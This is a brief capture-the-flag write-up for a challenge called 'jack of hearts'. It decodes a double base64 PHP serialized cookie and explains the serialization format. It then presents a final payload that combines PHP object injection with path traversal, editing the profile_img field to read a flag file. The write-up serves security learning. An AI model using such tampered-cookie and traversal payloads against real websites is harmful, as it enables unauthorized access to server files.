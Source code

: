 # jack of hearts

> Solved By : thewhiteh4t

```
Port : 20022
```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:23:"/var/www/html/guest.png";
}
```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";
}
```

![](https://i.imgur.com/JGNO34j.png)